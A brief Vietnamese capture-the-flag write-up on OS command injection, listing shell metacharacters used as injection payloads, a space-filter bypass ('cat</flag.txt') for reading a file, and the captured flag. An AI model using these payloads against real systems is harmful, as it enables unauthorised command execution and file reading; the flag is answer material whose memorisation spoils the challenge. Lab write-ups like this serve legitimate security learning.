



<h1>VUL: OS COmmand Injection</h1>

Các payload lỗi:
```powershell
;
$
'
"
|
||
ký tự khoảng trắng
```
Và ký tự thích hợp để đưa vào payload là '\n'



Đọc file:



Ký tự khoảng trắng đã bị filter, sử dụng cách sau:
```powershell
cat</flag.txt
```


```
FLAG: EHC{C0mm4nd_1nj3ct10n_9d5870ae9556d91f1764752a25e527f7}
```